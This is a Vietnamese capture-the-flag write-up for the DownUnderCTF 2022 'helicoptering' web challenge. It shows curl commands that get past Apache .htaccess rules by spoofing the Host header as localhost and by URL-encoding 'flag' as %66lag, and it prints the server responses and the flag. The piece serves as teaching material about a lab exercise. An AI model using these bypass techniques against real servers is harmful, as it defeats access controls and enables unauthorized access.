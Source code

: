 # WRITE-UP  DownUnderCTF 2022 -  helicoptering 

Sau khi sữ dụng lệnh curl -I http://yourdomain.com ta nhận được:

HTTP/1.1 403 Forbidden

Date: Tue, 15 Apr 2025 08:44:43 GMT

Server: Apache/2.4.54 (Debian)

Content-Type: text/html; charset=iso-8859-1

Bạn thấy một mã trạng thái 403 hoặc một số thông báo khác cho thấy bị từ chối quyền truy cập, có thể đó là vì quy tắc .htaccess chặn truy cập.

# Ở file one/.htaccess ta thấy rằng nếu Host không phải là localhost, yêu cầu sẽ bị từ chối ngay lập tức với mã trạng thái 403 Forbidden (thông qua dòng RewriteRule ".*" "-" [F])
RewriteEngine On
RewriteCond %{HTTP_HOST} !^localhost$
RewriteRule ".*" "-" [F]

Vì vậy thiết lập header Host trong yêu cầu HTTP thành localhost.

curl -i -s -k -X $'GET' -H $'Host: localhost' $'http://192.168.93.128:30026/one/flag.txt'

HTTP/1.1 200 OK
Date: Tue, 15 Apr 2025 09:02:00 GMT
Server: Apache/2.4.54 (Debian)
Last-Modified: Tue, 15 Apr 2025 06:34:43 GMT
ETag: "10-632cb5d2eec3c"
Accept-Ranges: bytes
Content-Length: 16
Content-Type: text/plain

DUCTF{thats_it_



# Ở file two/.htaccess ta thấy kiểm tra biến server THE_REQUEST, chứa toàn bộ dòng yêu cầu HTTP (ví dụ: GET /index.html HTTP/1.1). 
Điều quan trọng là quy tắc tìm kiếm sự xuất hiện của chuỗi flag trong dòng yêu cầu. Nếu tìm thấy flag, yêu cầu sẽ bị chặn (qua RewriteRule).
RewriteEngine On
RewriteCond %{THE_REQUEST} flag
RewriteRule ".*" "-" [F]

Vì vậy chúng ta cần đảm bảo rằng chuỗi flag không xuất hiện trong dòng yêu cầu. 
Nên mã hóa URL chuỗi flag, vì quy tắc .htaccess chỉ kiểm tra chuỗi flag chưa được mã hóa.
Chuỗi mã hóa URL của từ flag là %66lag

curl http://192.168.93.128:30026/two/%66lag.txt
next_time_im_using_nginx}
